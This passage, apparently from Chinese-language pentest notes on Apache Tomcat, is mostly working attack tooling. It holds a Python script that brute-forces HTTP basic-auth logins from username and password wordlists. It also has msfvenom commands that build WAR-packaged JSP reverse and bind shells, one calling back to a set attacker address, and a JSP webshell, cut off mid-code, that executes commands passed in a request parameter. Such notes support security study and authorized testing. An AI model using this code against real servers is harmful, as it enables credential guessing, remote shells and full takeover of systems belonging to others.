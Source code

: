 ```python
url = args.url
uri = args.path
users_file = args.usernames
passwords_file = args.passwords

new_url = url + uri
f_users = open(users_file, "rb")
f_pass = open(passwords_file, "rb")
usernames = [x.strip() for x in f_users]
passwords = [x.strip() for x in f_pass]

cprint("\n[+] Atacking.....", "red", attrs = ['bold'])

for u in usernames:
    for p in passwords:
        r = requests.get(new_url,auth = (u, p))

        if r.status_code == 200:
            cprint("\n[+] Success!!", "green", attrs = ['bold'])
            cprint("[+] Username : {}\n[+] Password : {}".format(u,p), "green", attrs = ['bold'])
            break
    if r.status_code == 200:
        break

if r.status_code != 200:
    cprint("\n[+] Failed!!", "red", attrs = ['bold'])
    cprint("[+] Could not Find the creds :( ", "red", attrs = ['bold'])
#print r.status_code
```

### WAR File Upload
/manager/html裡面可以上傳東西，在那邊上傳惡意的shell
- 利用msfvenom製作JSP War Reverse Shell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.123 LPORT=3155 -f war > shell.war
```
- 利用msfvenom製作JSP War Bind Shell
```
msfvenom -p java/jsp_shell_bind_tcp RHOST=0.0.0.0 LPORT=3155 -f war > bind.war
```
- 利用腳本製作webshell : [連結](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp)
```java
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
```